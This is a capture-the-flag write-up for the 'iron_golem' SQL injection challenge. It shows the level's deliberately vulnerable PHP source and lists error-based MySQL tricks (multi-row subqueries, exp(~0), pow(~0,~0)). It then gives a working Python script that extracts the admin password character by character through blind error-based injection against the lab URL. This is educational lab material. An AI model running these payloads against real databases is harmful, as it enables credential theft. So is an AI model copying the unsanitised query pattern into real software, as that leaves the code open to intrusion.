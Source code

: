 # iron_golem

```php

<?php
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(mysqli_error($db)) exit(mysqli_error($db));
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("iron_golem");
  highlight_file(__FILE__);
?>
```

Here we have to find the admins password. Here we are not getting the results as output. It's only giving errors. So we are trying to get an error when the character is correct and I wrote a script for that.
## Methods to get errors
pw = ""
1. ### (select id union select pw)
   It will give an error `Subquery returns more than 1 row`
2. ### (Select exp(~0))
   It will give an error `DOUBLE value is out of range in 'exp(~(0))'`
   source : `https://osandamalith.com/2015/07/15/error-based-sql-injection-using-exp/`
3. ### (select pow(~0,~0))
   It will give an error `DOUBLE value is out of range in 'pow(~(0),~(0))'`
   
4. 

```python
import requests
from string import digits,ascii_lowercase

session = requests.Session()
cookies = {"PHPSESSID": "7sp0e6btgarr92g7av9b5ddi58"}

url = "https://los.rubiya.kr/chall/iron_golem_beb244fe41dd33998ef7bb4211c56c75.php?pw=' or if(length(pw)={},null,(select id union select pw));--+"
for i in range(100):
    r = requests.get(url.format(i), cookies=cookies)
    print(i,end='\r')
    if('Subquery returns more than' not in r.text):
        l=i
        break
print("Length :",l) 
url = "https://los.rubiya.kr/chall/iron_golem_beb244fe41dd33998ef7bb4211c56c75.php?pw=' or if(pw like '{}%',null,(select id union select pw));--+"
pw = ""
for j in range(l):
    for i in digits+ascii_lowercase:
        r = requests.get(url.format(pw+i), cookies=cookies)
        if('Subquery returns more than' not in r.text and i not in "#+%&"):
            pw += i
            print("Password : {}".format(pw),end='\r')
            break
print("Password :", pw)

```

This will give the password.
